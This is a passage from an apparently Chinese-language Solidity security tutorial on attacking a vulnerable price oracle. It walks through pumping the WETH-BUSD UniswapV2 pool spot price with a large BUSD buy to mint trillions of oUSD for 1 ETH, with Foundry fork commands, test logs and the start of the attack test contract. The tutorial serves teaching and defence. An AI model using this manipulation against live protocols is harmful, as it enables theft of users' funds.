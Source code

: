 ```solidity
    }
}
```

### 攻击思路

我们针对有漏洞的价格预言机 `getPrice()` 函数进行攻击，步骤：

1. 准备一些 `BUSD`，可以是自有资金，也可以是闪电贷借款。在实现中，我们利用 Foundry 的 `deal` cheatcode 在本地网络上给自己铸造了 `1_000_000 BUSD`
2. 在 UniswapV2 的 `WETH-BUSD` 池中使用`BUSD`大量买入 `WETH`。具体实现见攻击代码的 `swapBUSDtoWETH()` 函数。
3. 在此情况下，`WETH-BUSD`池中代币对比例失去了平衡，`WETH` 瞬时价格暴涨，这时我们调用 `swap()` 函数将 `ETH` 转换为 `oUSD`。
4. **可选:** 在 UniswapV2 的 `WETH-BUSD` 池中卖出第2步买入的 `WETH`，收回本金。

这4步可以在一个交易中完成。

### Foundry 复现

我们选用 Foundry 进行操纵预言机攻击的复现，因为它很快，并且可以创建主网的本地分叉，方便测试。如果你不了解 Foundry，可以阅读 [WTF Solidity工具篇 T07: Foundry](https://github.com/AmazingAng/WTFSolidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md)。

1. 在安装好 Foundry 之后，在命令行输入下列命令启动新项目，并安装 openzeppelin 库。
  ```shell
  forge init Oracle
  cd Oracle
  forge install Openzeppelin/openzeppelin-contracts
  ```

2. 在根目录下创建 `.env` 环境变量文件，并在其中添加主网rpc，用于创建本地测试网。

  ```
  MAINNET_RPC_URL= https://rpc.ankr.com/eth
  ```

3. 将这一讲的代码，`Oracle.sol` 和 `Oracle.t.sol`，分别复制到根目录的 `src` 和 `test` 文件夹下，然后使用下列命令启动攻击脚本。

  ```
  forge test -vv --match-test testOracleAttack
  ```

4. 我们可以在终端中看到攻击结果。在攻击前，预言机 `getPrice()` 给出的 `ETH`
价格为 `1216 USD`，是正常的。但在我们使用 `1,000,000` BUSD 在 UniswapV2 的 `WETH-BUSD` 池子中买入 `WETH` 之后，预言机给出的价格被操纵为 `17,979,841,782,699 USD`。这时，我们可以轻松的用 `1 ETH` 兑换17万亿枚 `oUSD`，完成攻击。
  ```shell
  Running 1 test for test/Oracle.t.sol:OracleTest
  [PASS] testOracleAttack() (gas: 356524)
  Logs:
    1. ETH Price (before attack): 1216
    2. Swap 1,000,000 BUSD to WETH to manipulate the oracle
    3. ETH price (after attack): 17979841782699
    4. Minted 1797984178269 oUSD with 1 ETH (after attack)

  Test result: ok. 1 passed; 0 failed; finished in 262.94ms
  ```

攻击代码：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;
import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/Oracle.sol";

contract OracleTest is Test {
    address private constant alice = address(1);
    address private constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address private constant BUSD = 0x4Fabb145d64652a948d72533023f6E7A623C7C53;
    address private constant ROUTER = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
    IUniswapV2Router router;
    IWETH private weth = IWETH(WETH);
```